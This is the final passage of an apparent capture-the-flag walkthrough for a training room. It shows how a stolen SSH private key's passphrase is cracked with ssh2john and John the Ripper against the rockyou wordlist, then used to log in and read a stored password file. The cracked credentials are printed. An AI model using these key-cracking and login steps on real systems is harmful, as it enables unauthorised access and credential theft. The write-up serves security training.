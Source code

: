 ```
```
Enter passphrase for key 'kayrsa.txt': 
kay@10.10.52.25's password: 
Permission denied, please try again.
```
No worries, from this we can use JohnTheRipper a tool used to crack the passphrase: 
```
kali@kali)-[~]
└─$ /usr/share/john/ssh2john.py kayrsa.txt > crack
```
Run john on the file to output to another file called crack or whatever you want. Then use a wordlist like rockyou to crack it open!
```
kali@kali: john crack --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kayrsa.txt)     
1g 0:00:00:00 DONE (2024-04-16 18:15) 8.333g/s 689466p/s 689466c/s 689466C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

We’ve found the passphrase (beeswax)! Now we can finally log on to kay.

From here  we can obtain the final password: 
ssh -i kayrsa.txt kay@10.10.52.25                  
Enter passphrase for key 'kayrsa.txt': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
10. I’ve obtained the final password: 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$

Room challenge complete.
